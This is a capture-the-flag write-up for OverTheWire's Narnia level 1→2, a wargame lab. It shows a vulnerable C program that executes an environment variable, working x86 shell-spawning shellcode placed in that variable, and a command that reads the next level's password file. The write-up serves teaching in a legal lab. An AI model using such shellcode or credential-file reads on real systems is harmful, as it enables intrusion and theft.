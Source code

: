 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 1 -> 2"
subtitle:   "Write-Up"
date:       2017-02-02 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
permalink: /:title/
category: Overthewire
---
```


<h1>Introduction</h1>
<p>Another month, another challenge, next part of OverTheWire's Narnia wargames. Unfortunately lack of time, made it impossible for me to publish anything sooner. Sorry for that!</p>

<h1>Challenge</h1>

<p>Firstly let's take a look at the code of the program. </p>

{% highlight c %}
#include <stdio.h>

int main(){
	int (*ret)();

	if(getenv("EGG")==NULL){    
		printf("Give me something to execute at the env-variable EGG\n");
		exit(1);
	}

	printf("Trying to execute EGG!\n");
	ret = getenv("EGG");
	ret();

	return 0;
}

{% endhighlight %}

<p>The first thing that I see is that this program will check, whether or not the value of EGG variable is empty, if yes, it will print the message. But if not, it will try to execute it. </p>

<p>But what is enviromental variable? </p>

<p>Every time shell session is started, process is gathering information that should be available to the shell process and all child processes, putting them in special area called <b>enviroment</b>. </p>

<p><b>Enviromental variables</b> provide a way to influence the behaviour of software on the system. For example, the "LANG" environment variable determines the language in which software programs communicate with the user. They are represented as an key-value pairs. </p>

<pre>
KEY=VALUE
KEY=VALUE1:VALUE2
KEY="VALUE WITH SPACES"
</pre>

<p>Now when we understand the topic, let's try to set EGG variable as some random text possibly causing the program to crash. </p>

{% highlight bash %}
narnia1@melinda:/narnia$ export "EGG"="completelyrandomtext"
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
Segmentation fault
{% endhighlight %}

<p>Yes! Now let's try and find some x86 shellcode that will be executed by the program. What I found working, was this <a href="http://shell-storm.org/shellcode/files/shellcode-811.php">shellcode</a>, which was actually second one I've tried - the first one didn't want to cooperate ;)</p>

{% highlight bash %}
narnia1@melinda:/narnia$ export "EGG"=$'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
{% endhighlight %}

<p>We have the password to the next level! </p>

<h1>Conclusion</h1>

<p>It was another great challenge from <a href="www.overthewire.org">OverTheWire</a>. I'm looking forward to the next one, maybe something a little bit harder? We'll see!</p>
